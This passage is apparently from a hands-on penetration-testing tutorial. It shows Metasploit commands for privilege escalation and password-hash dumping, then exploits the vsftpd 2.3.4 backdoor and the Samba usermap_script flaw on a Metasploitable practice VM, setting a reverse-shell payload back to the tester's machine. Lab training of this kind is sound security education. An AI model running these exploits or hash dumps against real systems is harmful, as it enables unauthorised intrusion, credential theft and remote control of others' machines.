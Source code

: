 ```bash

# Privilege escalation
getsystem

# Password dumping (if admin)
hashdump

# Background session
background

# Return to session
sessions -i 1
```

#### Exercise 17: Metasploitable Practice (20 minutes)

**If you have Metasploitable VM available:**

**Scenario: Exploit vsftpd backdoor**

```bash
# Start msfconsole
sudo msfconsole

# Search for vsftpd
search vsftpd

# Use the backdoor exploit
use exploit/unix/ftp/vsftpd_234_backdoor

# Set target IP
set RHOSTS metasploitable_ip

# Exploit
exploit

# If successful, you have shell access
whoami
# Output: root

# Explore the system
ls
pwd
uname -a

# Exit
exit
```

**Scenario: Exploit Samba**

```bash
# Search for Samba exploits
search samba

# Use username map script exploit
use exploit/multi/samba/usermap_script

# Set target
set RHOSTS metasploitable_ip

# Set payload
set PAYLOAD cmd/unix/reverse

# Set your IP
set LHOST your_kali_ip
```